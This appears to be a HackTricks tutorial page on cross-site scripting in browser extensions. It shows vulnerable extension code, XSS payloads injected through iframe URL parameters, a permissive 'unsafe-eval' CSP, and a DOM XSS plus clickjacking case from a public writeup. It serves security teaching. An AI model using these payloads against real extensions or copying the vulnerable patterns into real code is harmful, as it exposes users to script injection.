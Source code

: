 # BrowExt - XSS Example

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", result => {
  let constructedURL = chrome.runtime.getURL("message.html") +
    "?content=" + encodeURIComponent(result.message) +
    "&redirect=https://example.net/details";
  frame.src = constructedURL;
});
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search);
  let userContent = urlParams.get("content");
  $(document.body).html(`${userContent} <button id='detailBtn'>Details</button>`);
  $('#detailBtn').on('click', () => {
    let destinationURL = urlParams.get("redirect");
    chrome.tabs.create({ url: destinationURL });
  });
});
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src;
  let baseURL = targetFrame.split('?')[0];
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>";
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`;

  document.querySelector("iframe").src = maliciousURL;
}, 1000);
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe");
newFrame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>");
document.body.append(newFrame);
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$('#btAdd').on('click', function() {
    var bookmarkName = $('#txtName').val();
    if ($('.custom-button .label').filter(function() {
        return $(this).text() === bookmarkName;
    }).length) return false;

    var bookmarkItem = $('<div class="custom-button">');
    bookmarkItem.html('<span class="label">' + bookmarkName + '</span>');
    bookmarkItem.append('<button class="remove-btn" title="delete">x</button>');
    bookmarkItem.attr('data-title', bookmarkName);
    bookmarkItem.data('timestamp', (new Date().getTime()));
    $('section.bookmark-container .existing-items').append(bookmarkItem);
    persistData();
});
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

